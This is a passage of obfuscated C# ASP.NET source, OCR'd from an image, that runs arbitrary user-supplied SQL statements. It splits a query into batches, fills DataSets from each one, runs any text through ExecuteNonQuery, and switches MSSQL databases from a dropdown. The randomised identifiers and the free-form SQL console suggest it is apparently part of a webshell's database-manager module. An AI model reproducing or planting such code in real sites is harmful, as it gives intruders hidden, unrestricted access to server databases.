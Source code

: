 Match FJD=gcod[i];
str=query.Substring(EmRX,FJD.Index-EmRX);
if(str.Trim().Length>0)
{
OleDbDataAdapter FgzeQ=new OleDbDataAdapter();
Kkvb.CommandType=CommandType.Text;
Kkvb.CommandText=str.Trim();
FgzeQ.SelectCommand=Kkvb;
DataSet cDPp=new DataSet();
FgzeQ.Fill(cDPp);
for(int j=0;j<cDPp.Tables.Count;j++)
{
list.Add(cDPp.Tables[j]);
}
}
EmRX=FJD.Index+3;
}
str=query.Substring(EmRX,query.Length-EmRX);
if(str.Trim().Length>0)
{
OleDbDataAdapter VwB=new OleDbDataAdapter();
Kkvb.CommandType=CommandType.Text;
Kkvb.CommandText=str.Trim();
VwB.SelectCommand=Kkvb;
DataSet arG=new DataSet();
VwB.Fill(arG);
for(int k=0;k<arG.Tables.Count;k++)
{
list.Add(arG.Tables[k]);
}
}
}
catch(SqlException e)
{
xseuB(e.Message);
rom.Visible=false;
}
return(DataTable[])list.ToArray(typeof(DataTable));
}
public void JIAKU(string instr)
{
try
{
OUj();
Kkvb.CommandType=CommandType.Text;
Kkvb.CommandText=instr;
Kkvb.ExecuteNonQuery();
}
catch(Exception e)
{
xseuB(e.Message);
}
}
public void dwgT()
{
try
{
OUj();
if(WYmo.SelectedItem.Text=="MSSQL")
{
if(Pvf.SelectedItem.Value!="")
{
Dtdr.ChangeDatabase(Pvf.SelectedItem.Value.ToString());
}